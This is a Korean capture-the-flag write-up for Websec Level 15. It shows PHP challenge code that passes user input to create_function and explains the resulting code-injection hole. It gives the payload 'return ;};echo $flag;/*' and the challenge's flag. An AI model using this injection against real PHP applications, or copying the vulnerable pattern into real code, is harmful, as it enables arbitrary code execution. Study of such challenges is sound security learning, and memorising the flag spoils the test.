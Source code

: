 ```yaml
---
title : Websec - Level 15
categories: [Wargame, Websec]
tags: [create_function, php create_function 취약점]
---
```


## Websec 15
<hr style="border-top: 1px solid;"><br>

![image](https://user-images.githubusercontent.com/52172169/154844569-16939aa6-7ab0-493b-9049-b467f3039b74.png)

<br>

```php
<?php         /* source */

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
?>

<input type="text" class="form-control" id="c" name="c" placeholder="echo 1337;" required>
<input type="checkbox" class="form-control" id="q" name="q" value="1"> Exit after declaration
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```create_function``` 함수는 lambda 형식으로 함수를 생성해주는 함수임.

<br>

```php
create_function(string $args, string $code): string

args : The function arguments.

code : The function code.

Returns a unique function name as a string, or false on error.
```

Link
: <a href="https://www.php.net/manual/en/function.create-function.php" target="_blank">php.net/manual/en/function.create-function.php</a>

<br>

create_function에는 취약점이 있음. 

Link 
: <a href="https://www.exploit-db.com/exploits/32417" target="_blank">exploit-db.com/exploits/32417</a>
: <a href="https://www.codetd.com/en/article/7175910" target="_blank">codetd.com/en/article/7175910</a> --> Explain

<br>

php 5.2.6에서 발견되었고 7.2.0부터 사용되지 않고 8.0부터는 제거되었음.

php 4.0.1 ~ php 5, php 7 에서는 유효함.

<br>

이 함수는 람다 형식으로 임의 함수를 생성해주는 함수임. 

php.net에서 예제 코드 ```$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');```를 람다 형식으로 써주면 아래와 같음.

<br>

```php
<?php
$newfunc = function($a,$b){
    return "ln($a) + ln($b) = " . log($a * $b);
};
?>
```

<br>

따라서 code 부분을 우리가 조작할 수 있다면 위의 형식을 이용해서 아래처럼 해줄 수 있음.

<br>

```php
$funstring = 'return ;};echo 5;/*';

$unused = create_function('',$funstring);

// 5 출력
```

<br>

```php
$test = function( $a ) { 
	return ;
};
echo 5;
/* 
};
```

<br>

따라서 ```return ;};echo $flag;/*```를 해주면 아래와 같은 플래그가 출력이 됨.

+ ```$flag``` : ```WEBSEC{HHVM_was_right_about_not_implementing_eval}```

<br><br>
<hr style="border: 2px solid;">
<br><br>

